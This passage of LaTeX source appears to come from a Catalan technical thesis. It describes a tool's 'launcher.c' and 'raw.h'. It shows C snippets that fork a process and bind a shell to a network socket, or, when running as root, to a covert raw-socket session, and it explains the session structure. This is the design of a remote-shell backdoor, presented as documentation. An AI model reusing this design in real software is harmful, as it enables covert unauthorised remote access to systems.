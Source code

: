 \begin{figure}[htp]
\begin{Verbatim}[commandchars=@\[\]]
@PYay[case] SHELL:
    debug(@PYaB["]@PYaB[Launching shell]@PYao[\n]@PYaB["]);
    @PYay[if] (@PYbe[!]getuid()) {
        debug(@PYaB["]@PYaB[Starting DirectRAW service]@PYao[\n]@PYaB["]);
        r @PYbe[=] create_rawsock_session(rawsocks, ip@PYbe[-]@PYbe[>]s_addr, sport, d@PYbe[-]@PYbe[>]port);
    	@PYay[if] (fork()) @PYay[return];
        launcher_shell(r@PYbe[-]@PYbe[>]r@PYZlb[]@PYag[0]@PYZrb[], r@PYbe[-]@PYbe[>]w@PYZlb[]@PYag[1]@PYZrb[]);
    	destroy_rawsock_session(r);
    } @PYay[else] {
    	@PYay[if] (fork()) @PYay[return];
        launcher_shell(sock, sock);
        close(sock);
    }
    @PYay[break];
\end{Verbatim}
    \caption{launcher.c::do\_action()}
    \label{fig:launcer_do_raw_action}
\end{figure}

Tal i com es pot veure a la figura \ref{fig:launcer_do_raw_action}, el primer que cal fer és crear la sessió utilitzant la funció
create\_rawsock\_session() que ens inicialitzarà un rawsocket. Un cop inicialitzat, disposarem de les dues 
pipes (una de lectura i una d'escriptura), que seran les utilitzades pel procés que executarà l'acció, 
igual que en els altres modes de comunicació s'utilitzaven els sockets.\\

\begin{figure}[htp]
\begin{Verbatim}[commandchars=@\[\]]
@PYay[struct] rawsock {
    @PYaJ[unsigned] @PYaJ[short] dport;
    @PYaJ[unsigned] @PYaJ[short] sport;
    @PYaJ[unsigned] @PYaJ[long] host;
    @PYaJ[int] r@PYZlb[]@PYag[2]@PYZrb[];
    @PYaJ[int] w@PYZlb[]@PYag[2]@PYZrb[];
	@PYaJ[int] pid;
};
\end{Verbatim}
    \caption{raw.h::struct rawsock}
    \label{fig:struct_rawsock}
\end{figure}

L'estructura rawsock és la que conté tota la informació de la sessió. Com es pot veure a la figura \ref{fig:struct_rawsock},
aquesta estructura conté els dos parells d'enters que seran utilitzats per inicialitzar les dues pipes, i
un pid que serà on es guardarà l'identificador del nostre procés, encarregat de realitzar els enviaments. \\
En aquesta estructura també guardem el port origen, destí i ip origen de la connexió, que són utilitzats per 
identificar la sessió raw a la què fan referència els paquets de sessió raw que es van revent. Aquestes dades
també són utilitzades per saber on realitzar l'enviament. \\

